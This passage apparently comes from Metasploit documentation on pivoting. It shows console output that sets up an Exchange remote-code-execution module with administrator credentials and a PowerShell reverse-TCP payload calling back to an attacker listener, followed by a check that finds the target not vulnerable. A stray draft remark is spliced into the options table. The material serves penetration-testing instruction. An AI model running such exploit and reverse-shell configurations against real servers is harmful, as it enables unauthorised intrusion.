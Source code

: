 
# Using the Pivot
At this point we can now use the pivot with any Metasploit modules as shown below:

```
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_denylist_typo_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  thePassword      yes       The password to use to authenticate to the Ex
                                            change server
   HttpUsername  administrator    yes       The username to log into the Exchange server
                                            as
   Proxies                        no        A proxy chain of format type:host:port[,type:
                                            host:port][...]
   RHOSTS        169.254.204.110  yes       The target host(s), see https://github.com/ra
                                            pid7/metasploit-framework/wiki/Using-Metasplo
                                            it
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yTo come, awaiting some more testing hold on :)es       The local host or network interface to listen
                                             on. This must be an address on the local mac
                                            hine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is
                                            randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is r
                                            andom)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.19.182.171   yes       The listen address (an interface may be speci
                                            fied)
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > check

[*] Target is an Exchange Server!
[*] 169.254.204.110:443 - The target is not exploitable. Exchange Server 15.2.986.14 does not appear to be a vulnerable version!
msf6 exploit(windows/http/exchange_chainedserializationbinder_denylist_typo_rce) > 
```
# Pivoting External Tools